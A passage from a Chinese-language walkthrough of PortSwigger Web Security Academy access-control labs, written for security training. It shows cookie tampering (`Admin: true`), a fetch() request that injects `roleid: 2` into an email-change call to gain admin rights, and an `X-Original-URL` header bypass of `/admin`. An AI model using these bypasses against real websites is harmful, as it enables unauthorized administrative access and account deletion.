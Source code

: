 進到 `/admin-ud3qbx`，成功刪除使用者

## Lab: User role controlled by request parameter

| Dimension | Description                                                                                       |
| --------- | ------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/access-control#parameter-based-access-control-methods        |
| Lab       | https://portswigger.net/web-security/access-control/lab-user-role-controlled-by-request-parameter |

Cookie 有 `Admin: false`，改成 `true` 就可以成功訪問 `/admin`

## Lab: User role can be modified in user profile

| Dimension | Description                                                                                       |
| --------- | ------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/access-control#parameter-based-access-control-methods        |
| Lab       | https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile |

這題稍微有點 tricky，要在 `/change-email` 的 API 加上 `roleid: 2`，之後再訪問 `/admin`

但如果沒有題目給的 hint 說 `roleid: 2`，根本不知道會有這個節點啊（？

```js
fetch(
  "https://0a1900e104f2117d813f07a500f200fc.web-security-academy.net/my-account/change-email",
  {
    headers: {
      "content-type": "text/plain;charset=UTF-8",
    },
    body: JSON.stringify({
      email: "wiener@normal-user.net",
      roleid: 2,
    }),
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

## Lab: URL-based access control can be circumvented

| Dimension | Description                                                                                                        |
| --------- | ------------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/access-control#broken-access-control-resulting-from-platform-misconfiguration |
| Lab       | https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented               |

嘗試

```js
fetch(`${location.origin}`, {
  headers: {
    "X-Original-URL": "/admin",
  },
});
```
